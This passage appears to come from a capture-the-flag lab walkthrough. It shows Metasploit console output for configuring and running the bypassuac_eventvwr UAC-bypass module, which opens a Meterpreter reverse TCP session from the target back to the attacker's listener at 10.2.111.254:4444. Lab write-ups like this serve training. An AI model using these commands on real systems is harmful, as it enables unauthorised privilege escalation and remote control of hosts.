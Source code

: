```
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.2.111.254/17 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::4fce:1eb1:c18a:cac6/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever




msf6 exploit(windows/local/bypassuac_eventvwr) > set lhost 10.2.111.254
lhost => 10.2.111.254
msf6 exploit(windows/local/bypassuac_eventvwr) > options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.111.254     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

```

### After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. 

```
msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.2.111.254:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (176198 bytes) to 10.10.8.156
[*] Meterpreter session 2 opened (10.2.111.254:4444 -> 10.10.8.156:49254) at 2024-10-10 22:15:45 -0500
```